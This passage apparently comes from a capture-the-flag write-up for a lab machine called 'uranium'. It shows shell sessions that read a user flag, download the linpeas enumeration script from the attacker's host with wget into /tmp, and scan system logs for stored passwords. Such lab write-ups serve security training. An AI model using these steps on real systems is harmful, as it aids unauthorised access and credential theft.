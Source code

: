 ```
hakanbey@uranium:~$ ls
chat_with_kral4  mail_file  user_1.txt
hakanbey@uranium:~$ cat user_1.txt
thm{USER FLAG .....0da7c}
hakanbey@uranium:~$ 

```

```
hakanbey@uranium:~$ ls
chat_with_kral4  mail_file  user_1.txt
hakanbey@uranium:~$ 

hakanbey@uranium:~$ ./chat_with_kral4
PASSWORD :

```
the app need password


```

Change directory to /tmp and upload linpeas.

```

```
hakanbey@uranium:~$ cd /tmp
hakanbey@uranium:/tmp$ wget http://10.8.x.xx/linpeas.sh
--2021-08-22 20:42:29--  http://10.8.xx.xx/linpeas.sh
Connecting to 10.8.xx.xx:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 307434 (300K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 300.23K  26.2KB/s    in 11s     

2021-08-22 20:42:40 (27.1 KB/s) - ‘linpeas.sh’ saved [307434/307434]

hakanbey@uranium:/tmp$
```

After reading carefully hole linpeas report i found this 

```
[+] Finding passwords inside logs (limit 70)                                                                                                                           
Binary file /var/log/hakanbey_network_log.pcap matches                                                                                                                 
Binary file /var/log/journal/d201151764514de6bab90df33f56aa28/user-1000@0005c1a9868986ea-3b258af52c0fc7c3.journal~ matches                                             
Binary file /var/log/journal/d201151764514de6bab90df33f56aa28/user-1000.journal matches                                                                                
/var/log/cloud-init.log:2021-05-04 19:41:15,560 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
/var/log/cloud-init.log:2021-05-04 21:00:51,421 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
/var/log/cloud-init.log:2021-05-06 11:58:07,761 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
/var/log/cloud-init.log:2021-05-06 13:43:33,049 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
/var/log/cloud-init.log:2021-05-06 13:49:58,546 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
/var/log/cloud-init.log:2021-05-06 14:34:14,232 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
/var/log/cloud-init.log:2021-08-22 19:45:54,042 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)                                         
```